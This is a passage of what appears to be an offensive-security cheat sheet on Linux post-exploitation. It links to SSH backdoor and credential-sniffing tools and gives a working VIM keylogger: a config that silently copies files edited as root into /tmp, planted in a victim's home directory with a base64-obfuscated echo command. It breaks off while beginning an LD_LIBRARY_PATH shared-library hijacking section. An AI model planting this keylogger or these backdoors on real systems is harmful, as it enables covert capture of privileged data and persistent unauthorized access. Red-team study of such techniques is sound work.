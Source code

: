 ```yaml
---
description: General Post Exploitation
---
```


# Post Exploitation




## Linux

- [https://github.com/blendin/3snake](https://github.com/blendin/3snake)
- [https://github.com/hackerschoice/ssh-key-backdoor](https://github.com/hackerschoice/ssh-key-backdoor)
- [https://github.com/MegaManSec/SSH-Snake](https://github.com/MegaManSec/SSH-Snake)
- [https://www.thc.org/ssh-it/](https://www.thc.org/ssh-it/)

Search SSH logs for connection source IPs:

```
$ sudo zgrep -ah sshd /var/log/auth.log* | grep Accepted
```



### VIM Keylogger

Create a malicious VIM config that will save contents of a modified file when ran with sudo:

{% code title="settings.vim" %}
```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/tmp0x031337
:endif
```
{% endcode %}

```
$ sudo -u victim mkdir -p /home/victim/.vim/plugin
$ sudo -u victim bash -c 'echo -n OmlmICRVU0VSID09ICJyb290Igo6YXV0b2NtZCBCdWZXcml0ZVBvc3QgKiA6c2lsZW50IDp3ISA+PiAvdG1wL3RtcDB4MDMxMzM3CjplbmRpZgo=|base64 -d > /home/victim/.vim/plugin/settings.vim'
```



### Shared Libraries Hijacking


#### `LD_LIBRARY_PATH`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_LIBRARY_PATH.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_LIBRARY_PATH.c)

For example, target executable will be `/usr/bin/top`.
